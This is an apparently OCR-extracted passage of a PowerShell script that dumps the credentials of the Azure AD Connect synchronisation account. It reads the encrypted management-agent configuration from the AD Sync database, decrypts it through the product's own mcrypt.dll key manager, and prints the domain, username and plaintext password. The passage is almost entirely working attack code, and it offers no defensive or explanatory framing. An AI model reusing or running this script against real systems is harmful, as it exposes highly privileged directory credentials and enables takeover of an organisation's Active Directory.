 ```powershell
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path "C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll"
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}

"[+] Domain:  " + $domain.Domain
"[+] Username: " + $username.Username
"[+]Password: " + $password.Password
}}
```